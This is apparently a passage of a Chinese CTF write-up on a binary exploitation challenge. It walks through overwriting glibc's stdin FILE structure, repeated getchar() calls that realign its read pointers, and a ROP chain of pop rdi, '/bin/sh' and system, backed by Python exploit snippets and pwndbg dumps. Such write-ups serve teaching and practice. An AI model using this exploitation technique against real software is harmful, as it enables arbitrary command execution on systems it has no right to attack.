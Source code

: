 ```
0x7fa95326b8e0 <_IO_2_1_stdin_>:	0x00000000fbad208b	0x00007fa95326b901 //_IO_read_ptr
									//IO_read_end
0x7fa95326b8f0 <_IO_2_1_stdin_+16>:	0x00007fa95326b928	0x00007fa95326b900
0x7fa95326b900 <_IO_2_1_stdin_+32>:	0x00007fa95326b963	0x00007fa95326b963
0x7fa95326b910 <_IO_2_1_stdin_+48>:	0x00007fa95326b963	0x00007ffddf79fbe8
0x7fa95326b920 <_IO_2_1_stdin_+64>:	0x00007ffddf79fc00	0x0000000000000000
```

而 getchar() 的作用是使fp->_IO_read_ptr + 1

由于在覆盖结构体后，scanf的后面有一个getchar，执行了一次，所以还需要调用len(p)-1次getchar()，使_IO_read_ptr ==  PIO_read_end

```python
	#call getchar() make fp->_IO_read_ptr == fp->_IO_read_end
	for i in range(0, len(p) - 1):
		sla('>>', str(2))
		sla(':', ',')
		sl(' ')	
```

调用 len(p) - 1次getchar()后, _IO_2_1_stdin_ 如下

```
pwndbg> x /40gx &_IO_2_1_stdin_
0x7f1a9a51f8e0 <_IO_2_1_stdin_>:	0x00000000fbad208b	0x00007f1a9a51f928 //_IO_read_ptr
                                    //IO_read_end
0x7f1a9a51f8f0 <_IO_2_1_stdin_+16>:	0x00007f1a9a51f928	0x00007f1a9a51f900
0x7f1a9a51f900 <_IO_2_1_stdin_+32>:	0x00007f1a9a51f963	0x00007f1a9a51f963
0x7f1a9a51f910 <_IO_2_1_stdin_+48>:	0x00007f1a9a51f963	0x00007fff14080e88
0x7f1a9a51f920 <_IO_2_1_stdin_+64>:	0x00007fff14080ea0	0x0000000000000000
0x7f1a9a51f930 <_IO_2_1_stdin_+80>:	0x0000000000000000	0x0000000000000000

```

### 构造rop链

然后再次输入的时候,输入的数据就会在stack中了,现在就可以构造rop链.

```python
	#build rop chail
	sla('>>', str(2))
	p = p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)
	sla(':', p) #length:
	sl('')	
```

下面为输入修改后的堆栈


```
pwndbg> stack 50
00:0000│ rsp  0x7fff92ceeed8 —▸ 0x55c9b5337ad4 ◂— movzx  eax, byte ptr [rbp - 0x10]
01:0008│ rsi  0x7fff92ceeee0 ◂— 0x0
02:0010│      0x7fff92ceeee8 ◂— 0x4a74f6baf7ec8d00
03:0018│ rbp  0x7fff92ceeef0 —▸ 0x7fff92ceef00 —▸ 0x7fff92ceef30 —▸ 0x55c9b5337d30 ◂— push   r15
04:0020│      0x7fff92ceeef8 —▸ 0x55c9b5337b43 ◂— pop    rbp
05:0028│      0x7fff92ceef00 —▸ 0x7fff92ceef30 —▸ 0x55c9b5337d30 ◂— push   r15
06:0030│      0x7fff92ceef08 —▸ 0x55c9b5337ccd ◂— mov    dword ptr [rbp - 0x14], eax
07:0038│      0x7fff92ceef10 —▸ 0x55c9b5337d30 ◂— push   r15
08:0040│      0x7fff92ceef18 ◂— 0xffffffda00000001
09:0048│      0x7fff92ceef20 —▸ 0x7f53670f8918 (_IO_2_1_stdin_+56) —▸ 0x7fff92ceef38 —▸ 0x55c9b5337d93 ◂— pop    rdi
0a:0050│      0x7fff92ceef28 ◂— 0x4a74f6baf7ec8d00
0b:0058│      0x7fff92ceef30 —▸ 0x55c9b5337d30 ◂— push   r15
0c:0060│      0x7fff92ceef38 —▸ 0x55c9b5337d93 ◂— pop    rdi //修改为pop_rdi _ret
0d:0068│      0x7fff92ceef40 —▸ 0x7f5366ec0d57 ◂— 0x68732f6e69622f /* '/bin/sh' */
0e:0070│      0x7fff92ceef48 —▸ 0x7f5366d79390 (system) ◂— test   rdi, rdi

```